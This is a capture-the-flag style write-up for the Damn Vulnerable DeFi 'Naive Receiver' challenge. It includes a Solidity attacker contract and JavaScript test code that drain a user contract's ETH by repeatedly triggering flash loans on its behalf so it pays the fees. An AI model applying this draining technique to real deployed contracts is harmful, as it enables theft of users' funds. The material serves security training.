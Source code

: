 ```yaml
---
layout: post
title: Damn Vulnerable DeFi - 2. Native Receiver
date:  2022-12-12
tags:  solidity ethereum
---
```


## Description
> There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.<br /><br />
You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.<br /><br />
Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)<br /><br />
- [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.2.0/contracts/naive-receiver)

## Writeup
呼叫 `flashLoan` function 可以使可以減少 1ETH，所以我們來寫個合約調用它，直到沒有餘額。
1. 撰寫合約
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    import "../naive-receiver/NaiveReceiverLenderPool.sol";

    contract NaiveReceiverAttacker {
      NaiveReceiverLenderPool private pool;

      constructor(address payable poolAddress) {
          pool = NaiveReceiverLenderPool(poolAddress);
      }

      function attack(address payable receiver) public {
        while(receiver.balance > 0) {
            pool.flashLoan(receiver, 0);
        }
      }
    }
    ```
2. 修改 `test/unstoppable/naive-receiver.challenge.js`
    ``` js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */   
        const attackerContract = await (await ethers.getContractFactory('NaiveReceiverAttacker', attacker)).deploy(this.pool.address);
        await attackerContract.connect(attacker).attack(this.receiver.address);
    });
    ```
3. `yarn run naive-receiver` to exploit !          

### 其他解法
不另外寫合約，直接修改 `test/unstoppable/naive-receiver.challenge.js` 成下面這樣也可以。
``` js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */   
    for (let i = 0; i < 10; i++) {
        await this.pool.flashLoan(this.receiver.address, 0);
    }
});
```